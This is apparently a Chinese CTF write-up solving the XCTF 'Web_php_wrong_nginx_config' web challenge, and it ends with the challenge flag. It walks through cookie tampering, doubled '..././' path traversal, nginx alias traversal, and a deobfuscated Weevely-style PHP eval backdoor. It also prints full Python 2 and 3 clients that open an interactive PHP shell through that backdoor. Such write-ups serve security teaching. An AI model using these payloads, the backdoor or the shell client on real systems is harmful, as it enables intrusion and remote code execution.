

# Web_php_wrong_nginx_config

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=c5aadb17-5557-45cd-870a-3ee6d39039ad_2)

搞了半天python2和python3的兼容，毫无收获，菜的我直接抄了flag。

进到网站，提示登录。然后无论输入什么提交后都显示网站正在建设，怀疑根本就没写登录框，故sql注入也不用考虑了。没思路就看有没有robots.txt，发现有内容。

- User-agent: *Disallow:
<br>hint.php
<Br>Hack.php

- 配置文件也许有问题呀：/etc/nginx/sites-enabled/site.conf

挺好，但是还是没法登录啊？测试常见页面，发现还有个index.php。接着看cookie发现有个isLogin字段，从0改成1后进入index.php就不会显示未登录了。此处积累一个小技巧，bp的Proxy下的Options往下拉有个Match and Replace，点击Add添加一个修改请求头的内容就可以实现同样效果了。



进到index.php，发现没啥东西可以点的，除了管理中心那个链接点击后url发生了变化。

- http://61.147.171.105:60243/admin/admin.php?file=index&ext=php

file参数很有可能有文件包含。对了之前不是给了个配置文件路径吗？试试。

- http://61.147.171.105:60243/admin/admin.php?file=../../../../../..//etc/nginx/sites-enabled/site.conf&ext=

什么也没有发生。要么就是没有文件包含要么就是给过滤了。用payload测试一下有没有及什么种类的过滤。

- http://61.147.171.105:60243/admin/admin.php?file=inde../x&ext=php

出现了please continue。

- http://61.147.171.105:60243/admin/admin.php?file=inde./x&ext=php

please continue没了。inde../x和inde./x肯定都不是有效的文件名或路径，但第一个payload读出了内容，说明我们的payload被转换了，过滤词是../。如果是检测到黑名单词直接放弃包含的过滤是不应该读出来内容的，那么此处使用的过滤很有可能是置空。那就很简单了，双写绕过。

- http://61.147.171.105:60243/admin/admin.php?file=..././..././..././..././..././..././/etc/nginx/sites-enabled/site.conf&ext=

注意ext参数要为空，因为代表了后缀名，默认后缀名php是读不出来东西的。../加多少个都行，一堆../是为了回到根目录，然后从根目录开始读取配置文件，毕竟我们得到的是配置文件的绝对路径。整理一下得到的配置文件。

```bash
server {
    listen 8080; ## listen for ipv4; this line is default and implied
    listen [::]:8080; ## listen for ipv6

    root /var/www/html;
    index index.php index.html index.htm;
    port_in_redirect off;
    server_name _;

    # Make site accessible from http://localhost/
    #server_name localhost;

    # If block for setting the time for the logfile
    if ($time_iso8601 ~ "^(\d{4})-(\d{2})-(\d{2})") {
       set $year $1;
       set $month $2;
       set $day $3;
    }
    # Disable sendfile as per https://docs.vagrantup.com/v2/synced-folders/virtualbox.html
    sendfile off;

        set $http_x_forwarded_for_filt $http_x_forwarded_for;
        if ($http_x_forwarded_for_filt ~ ([0-9]+\.[0-9]+\.[0-9]+\.)[0-9]+) {
                set $http_x_forwarded_for_filt $1???;
        }

    # Add stdout logging

    access_log /var/log/nginx/$hostname-access-$year-$month-$day.log openshift_log;
    error_log /var/log/nginx/error.log info;

    location / {
        # First attempt to serve request as file, then
        # as directory, then fall back to index.html
        try_files $uri $uri/ /index.php?q=$uri&$args;
        server_tokens off;
    }

    #error_page 404 /404.html;

    # redirect server error pages to the static page /50x.html
    #
    error_page 500 502 503 504 /50x.html;
    location = /50x.html {
        root /usr/share/nginx/html;
    }
    location ~ \.php$ {
        try_files $uri $uri/ /index.php?q=$uri&$args;
        fastcgi_split_path_info ^(.+\.php)(/.+)$;
        fastcgi_pass unix:/var/run/php/php5.6-fpm.sock;
        fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
        fastcgi_param SCRIPT_NAME $fastcgi_script_name;
        fastcgi_index index.php;
        include fastcgi_params;
        fastcgi_param REMOTE_ADDR $http_x_forwarded_for;
    }

    location ~ /\. {
            log_not_found off;
            deny all;
    }
    location /web-img {
        alias /images/;
        autoindex on;
    }
    location ~* \.(ini|docx|pcapng|doc)$ {  
         deny all;  
    }  

    include /var/www/nginx[.]conf;
}
```

此处涉及到ngnix的[alias](https://blog.csdn.net/kinginblue/article/details/50748683)的用法。这个配置文件的写法表示当用户访问/web-img时相当于访问/images/。同时autoindex为on表示打开了路径浏览，从images可以走遍整个服务器的路径。但是从images开始多没意思，如果我们构造payload /web-img../，替换后等同于/images/../，也就是/images的上一个路径，不就是根目录了吗？这次我们不是直接访问根目录，而是通过/images，路径浏览仍然生效，服务器一览无余。

在/var/www下发现hack.php.bak文件。是个混淆。

```php
<?php
$U='_/|U","/-/|U"),ar|Uray|U("/|U","+"),$ss(|U$s[$i]|U,0,$e)|U)),$k))|U|U);$o|U|U=o|Ub_get_|Ucontents(|U);|Uob_end_cle';
$q='s[|U$i]="";$p=|U$ss($p,3);}|U|Uif(array_k|Uey_|Uexis|Uts($|Ui,$s)){$s[$i].=|U$p|U;|U$e=|Ustrpos($s[$i],$f);|Ui';
$M='l="strtolower|U";$i=$m|U[1|U][0].$m[1]|U[1];$|U|Uh=$sl($ss(|Umd5($i|U.$kh),|U0,3|U));$f=$s|Ul($ss(|Umd5($i.$';
$z='r=@$r[|U"HTTP_R|UEFERER|U"];$r|U|Ua=@$r["HTTP_A|U|UCCEPT_LAN|UGUAGE|U"];if|U($r|Ur&|U&$ra){$u=parse_|Uurl($r';
$k='?:;q=0.([\\|Ud]))?,|U?/",$ra,$m)|U;if($|Uq&&$m){|U|U|U@session_start()|U|U;$s=&$_SESSIO|UN;$ss="|Usubst|Ur";|U|U$s';
$o='|U$l;|U){for|U($j=0;($j|U<$c&&|U|U$i|U<$|Ul);$j++,$i++){$o.=$t{$i}|U^$k|U{$j};}}|Ureturn $|Uo;}$r=$|U_SERV|UE|UR;$r';
$N='|Uf($e){$k=$k|Uh.$kf|U;ob_sta|Urt();|U@eva|Ul(@g|Uzuncom|Upress(@x(@|Ubas|U|Ue64_decode(preg|U_repla|Uce(|Uarray("/';
$C='an();$d=b|Uase64_encode(|Ux|U(gzcomp|U|Uress($o),$k))|U;prin|Ut("|U<$k>$d</$k>"|U);@ses|U|Usion_des|Utroy();}}}}';
$j='$k|Uh="|U|U42f7";$kf="e9ac";fun|Uction|U |Ux($t,$k){$c|U=|Ustrlen($k);$l=s|Utrl|Ue|Un($t);$o=|U"";fo|Ur($i=0;$i<';
$R=str_replace('rO','','rOcreatrOe_rOrOfurOncrOtion');
$J='kf|U),|U0,3));$p="|U";for(|U|U$|Uz=1;$z<cou|Unt|U($m[1]);|U$z++)$p.=|U$q[$m[2][$z|U]|U];if(strpos(|U$|U|Up,$h)|U===0){$';
$x='r)|U;pa|Urse|U_str($u["qu|U|Uery"],$q);$|U|Uq=array_values(|U$q);pre|Ug|U_match_al|Ul("/([\\|U|Uw])[|U\\w-]+|U(';
$f=str_replace('|U','',$j.$o.$z.$x.$k.$M.$J.$q.$N.$U.$C);
$g=create_function('',$f);
$g();
?>
```

这一串玩意人工分析肯定不行。不过末尾的$f是上面所有字符串的拼接，输出并整理看看。

```php
$kh="42f7";
$kf="e9ac";
function x($t,$k) {
    $c=strlen($k);
    $l=strlen($t);
    $o="";
    for ($i=0;$i<$l;) {
        for ($j=0;($j<$c&&$i<$l);$j++,$i++) {
            $o.=$t {
                $i
            }
            ^$k {
                $j
            }
            ;
        }
    }
    return $o;
}
$r=$_SERVER;
$rr=@$r["HTTP_REFERER"];
$ra=@$r["HTTP_ACCEPT_LANGUAGE"];
if($rr&&$ra) {
    $u=parse_url($rr);
    parse_str($u["query"],$q);
    $q=array_values($q);
    preg_match_all("/([\w])[\w-]+(?:;q=0.([\d]))?,?/",$ra,$m);
    if($q&&$m) {
        @session_start();
        $s=&$_SESSION;
        $ss="substr";
        $sl="strtolower";
        $i=$m[1][0].$m[1][1];
        $h=$sl($ss(md5($i.$kh),0,3));
        $f=$sl($ss(md5($i.$kf),0,3));
        $p="";
        for ($z=1;$z<count($m[1]);$z++)$p.=$q[$m[2][$z]];
        if(strpos($p,$h)===0) {
            $s[$i]="";
            $p=$ss($p,3);
        }
        if(array_key_exists($i,$s)) {
            $s[$i].=$p;
            $e=strpos($s[$i],$f);
            if($e) {
                $k=$kh.$kf;
                ob_start();
                @eval(@gzuncompress(@x(@base64_decode(preg_replace(array("/_/","/-/"),array("/","+"),$ss($s[$i],0,$e))),$k)));
                $o=ob_get_contents();
                ob_end_clean();
                $d=base64_encode(x(gzcompress($o),$k));
                print("<$k>$d</$k>");
                @session_destroy();
            }
        }
    }
}
```

莫名其妙的文件里有@eval基本不是什么好东西，搜索得知是个后门。和这位[大佬](https://phuker.github.io/weevely-backdoor-code-analysis.html)遇见的一模一样。大佬提供了现成脚本，我们只需要更改key也就是$kh和$kf,和url就可以了。

```python
# encoding: utf-8


from random import randint, choice
from hashlib import md5
import urllib
import string
import zlib
import base64
import requests
import re


def choicePart(seq, amount):
    length = len(seq)
    if length == 0 or length < amount:
        print 'Error Input'
        return None
    result = []
    indexes = []
    count = 0
    while count < amount:
        i = randint(0, length - 1)
        if not i in indexes:
            indexes.append(i)
            result.append(seq[i])
            count += 1
            if count == amount:
                return result


def randBytesFlow(amount):
    result = ''
    for i in xrange(amount):
        result += chr(randint(0, 255))
    return result


def randAlpha(amount):
    result = ''
    for i in xrange(amount):
        result += choice(string.ascii_letters)
    return result


def loopXor(text, key):
    result = ''
    lenKey = len(key)
    lenTxt = len(text)
    iTxt = 0
    while iTxt < lenTxt:
        iKey = 0
        while iTxt < lenTxt and iKey < lenKey:
            result += chr(ord(key[iKey]) ^ ord(text[iTxt]))
            iTxt += 1
            iKey += 1
    return result


def debugPrint(msg):
    if debugging:
        print msg


# config
debugging = False
keyh = "42f7"  # $kh
keyf = "e9ac"  # $kf
xorKey = keyh + keyf
url = 'http://220.249.52.133:47368/hack.php'
defaultLang = 'zh-CN'
languages = ['zh-TW;q=0.%d', 'zh-HK;q=0.%d', 'en-US;q=0.%d', 'en;q=0.%d']
proxies = None  # {'http':'http://127.0.0.1:8080'} # proxy for debug

sess = requests.Session()

# generate random Accept-Language only once each session
langTmp = choicePart(languages, 3)
indexes = sorted(choicePart(range(1, 10), 3), reverse=True)

acceptLang = [defaultLang]
for i in xrange(3):
    acceptLang.append(langTmp[i] % (indexes[i],))
acceptLangStr = ','.join(acceptLang)
debugPrint(acceptLangStr)

init2Char = acceptLang[0][0] + acceptLang[1][0]  # $i
md5head = (md5(init2Char + keyh).hexdigest())[0:3]
md5tail = (md5(init2Char + keyf).hexdigest())[0:3] + randAlpha(randint(3, 8))
debugPrint('$i is %s' % (init2Char))
debugPrint('md5 head: %s' % (md5head,))
debugPrint('md5 tail: %s' % (md5tail,))

# Interactive php shell
cmd = raw_input('phpshell > ')
while cmd != '':
    # build junk data in referer
    query = []
    for i in xrange(max(indexes) + 1 + randint(0, 2)):
        key = randAlpha(randint(3, 6))
        value = base64.urlsafe_b64encode(randBytesFlow(randint(3, 12)))
        query.append((key, value))
    debugPrint('Before insert payload:')
    debugPrint(query)
    debugPrint(urllib.urlencode(query))

    # encode payload
    payload = zlib.compress(cmd)
    payload = loopXor(payload, xorKey)
    payload = base64.urlsafe_b64encode(payload)
    payload = md5head + payload

    # cut payload, replace into referer
    cutIndex = randint(2, len(payload) - 3)
    payloadPieces = (payload[0:cutIndex], payload[cutIndex:], md5tail)
    iPiece = 0
    for i in indexes:
        query[i] = (query[i][0], payloadPieces[iPiece])
        iPiece += 1
    referer = url + '?' + urllib.urlencode(query)
    debugPrint('After insert payload, referer is:')
    debugPrint(query)
    debugPrint(referer)

    # send request
    r = sess.get(url, headers={'Accept-Language': acceptLangStr, 'Referer': referer}, proxies=proxies)
    html = r.text
    debugPrint(html)

    # process response
    pattern = re.compile(r'<%s>(.*)</%s>' % (xorKey, xorKey))
    output = pattern.findall(html)
    if len(output) == 0:
        print 'Error,  no backdoor response'
        cmd = raw_input('phpshell > ')
        continue
    output = output[0]
    debugPrint(output)
    output = output.decode('base64')
    output = loopXor(output, xorKey)
    output = zlib.decompress(output)
    print output
    cmd = raw_input('phpshell > ')
```

我尝试搞成python3，能正常运行但是无法输出内容。

```python
# encoding: utf-8

from operator import xor
from random import randint,choice
from hashlib import md5
import urllib
import urllib.parse
import string
import zlib
import base64
import requests
import re

def choicePart(seq,amount):
    length = len(seq)
    if length == 0 or length < amount:
        print('Error Input')
        return None
    result = []
    indexes = []
    count = 0
    while count < amount:
        i = randint(0,length-1)
        if not i in indexes:
            indexes.append(i)
            result.append(seq[i])
            count += 1
            if count == amount:
                return result

def randBytesFlow(amount):
    result = ''
    for i in range(amount):
        result += chr(randint(0,255))
    return  result.encode()

def randAlpha(amount):
    result = ''
    for i in range(amount):
        result += choice(string.ascii_letters)
    return result.encode()

def loopXor(text,key):
    result = ''
    lenKey = len(key)
    lenTxt = len(text)
    iTxt = 0
    while iTxt < lenTxt:
        iKey = 0
        while iTxt<lenTxt and iKey<lenKey:
            result += chr(key[iKey] ^ text[iTxt])
            iTxt += 1
            iKey += 1
    return result


def debugPrint(msg):
    if debugging:
        print(msg)

# config
debugging = False
keyh = b"42f7" # $kh
keyf = b"e9ac" # $kf
xorKey = keyh + keyf
url = 'http://61.147.171.105:60243/hack.php'
defaultLang = 'zh-CN'
languages = ['zh-TW;q=0.%d','zh-HK;q=0.%d','en-US;q=0.%d','en;q=0.%d']
proxies = None # {'http':'http://127.0.0.1:8080'} # proxy for debug

sess = requests.Session()

# generate random Accept-Language only once each session
langTmp = choicePart(languages,3)
indexes = sorted(choicePart(range(1,10),3), reverse=True)

acceptLang = [defaultLang]
for i in range(3):
    acceptLang.append(langTmp[i] % (indexes[i],))
acceptLangStr = ','.join(acceptLang)
debugPrint(acceptLangStr)

init2Char = (acceptLang[0][0] + acceptLang[1][0]).encode() # $i
md5head = (md5(init2Char + keyh).hexdigest())[0:3]
md5tail = (md5(init2Char + keyf).hexdigest())[0:3] + randAlpha(randint(3,8)).decode()
debugPrint('$i is %s' % (init2Char))
debugPrint('md5 head: %s' % (md5head,))
debugPrint('md5 tail: %s' % (md5tail,))

# Interactive php shell
cmd = input('phpshell > ')
while cmd != '':
    # build junk data in referer
    query = []
    for i in range(max(indexes)+1+randint(0,2)):
        key = randAlpha(randint(3,6))
        value = base64.urlsafe_b64encode(randBytesFlow(randint(3,12)))
        query.append((key, value))
    debugPrint('Before insert payload:')
    debugPrint(query)
    debugPrint(urllib.parse.urlencode(query))

    # encode payload
    payload = zlib.compress(cmd.encode())
    payload = loopXor(payload,xorKey)
    payload = base64.urlsafe_b64encode(payload.encode())
    payload = md5head.encode() + payload

    # cut payload, replace into referer
    cutIndex = randint(2,len(payload)-3)
    payloadPieces = (payload[0:cutIndex], payload[cutIndex:], md5tail)
    iPiece = 0
    for i in indexes:
        query[i] = (query[i][0],payloadPieces[iPiece])
        iPiece += 1
    referer = url + '?' + urllib.parse.urlencode(query)
    debugPrint('After insert payload, referer is:')
    debugPrint(query)
    debugPrint(referer)

    # send request
    r = sess.get(url,headers={'Accept-Language':acceptLangStr,'Referer':referer},proxies=proxies)
    html = r.text
    debugPrint(html)

    # process response
    tempXorKey=xorKey.decode()
    pattern = re.compile(r'<%s>(.*)</%s>' % (tempXorKey,tempXorKey))
    output = pattern.findall(html)
    if len(output) == 0:
        print('Error,  no backdoor response')
        cmd = input('phpshell > ')
        continue
    output = output[0]
    debugPrint(output)
    #output = output.decode('base64')
    output=base64.b64decode(output)
    output = loopXor(output,xorKey)
    #output = zlib.decompress(output.encode())
    print(output)
    cmd = input('phpshell > ')
```

python2和python3在byte和string这个方面真的太难兼容了。

- ### Flag
  > ctf{a57b3698-eeae-48c0-a669-bafe3213568c}